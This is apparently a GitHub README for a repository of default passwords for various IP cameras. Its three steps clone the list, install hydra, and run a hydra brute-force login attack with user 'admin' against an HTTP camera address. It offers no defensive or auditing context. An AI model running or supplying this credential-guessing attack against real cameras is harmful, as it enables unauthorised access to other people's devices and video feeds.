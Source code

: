 # ipcam-pass
This contains the default password of different types of IP cameras 

# Step 1
$ git clone https://github.com/utrax/ipcam-pass.git
# Step 2
$ sudo apt-get install hydra
# Step 3
$hydra -l admin -P ip-cam-pass.txt http-get://10.240.138.5 -V
